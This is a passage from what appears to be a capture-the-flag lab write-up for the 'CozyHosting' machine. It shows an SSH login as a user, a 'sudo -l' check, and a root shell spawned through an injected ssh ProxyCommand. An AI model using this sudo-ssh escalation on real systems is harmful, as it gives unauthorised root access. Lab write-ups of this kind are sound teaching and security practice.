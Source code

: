 ```
ssh josh@10.10.11.230
```


So lets see if this password was for him:

![](../assets/images/cozyhosting/20230906204336.png)

And we got access!!! 
and so is the user flag is here, now time for root.


First let's see what can we run with the sudo command using:

```
sudo -l
```

![](../assets/images/cozyhosting/20230906204649.png)

We can run ssh, which is interesting.

after searching a bit in the internet we can see that we can use it to spawn a root shell using proxycommands.

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

lets do it and see what will happen?

![](../assets/images/cozyhosting/20230906204933.png)
